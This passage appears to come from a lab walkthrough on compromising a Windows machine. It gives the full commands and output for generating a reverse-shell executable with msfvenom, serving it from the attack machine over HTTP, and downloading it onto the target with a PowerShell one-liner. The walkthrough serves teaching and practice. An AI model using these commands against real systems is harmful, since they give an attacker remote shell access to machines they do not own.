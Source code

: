4. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f exe-service -o rev-svc.exe` from our Linux attack machine to use Metasplout's **msfvenom** to generate a Windows executable for a reverse shell payload that we'll execute on the compromised Windows machine
```Bash
root@ip-10-10-44-151:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.44.151 LPORT=9999 -f exe-service -o rev-svc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe-service file: 48640 bytes
Saved as: rev-svc.exe
```
5. `sudo python3 -m http.server` from our Linux attack machine to start and transform our attack machine into a simple HTTP server that we'll connect to from our compromised machine to downlaod our payload
```Bash
root@ip-10-10-44-151:~# sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
6. `PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME1>.exe','rev-svc.exe')"` from our compromised Windows machine to create a new instance of the **System.Net.Web** class, which allowed us to call its **DownloadFile** method, which then allowed us to download our payload from our attack machine which we temporarily turned into an HTTP server by specifying its location and the name we want to give that payload when we download it onto the compromised machine
```PowerShell
PS C:\Users\Administrator> PowerShell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.44.151:8000/rev-svc.exe','Payload.exe')"
```
7. `dir` from our compromised Windows machine to display the files and directories that are in our current working directory onto our terminal to verify that we successfully downloaded our payload from our attack machine, which we did
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
d-r---        3/17/2021   3:13 PM                Searches
d-r---        3/17/2021   3:13 PM                Videos
-a----         7/6/2023   1:24 AM          48640 Payload.exe
```
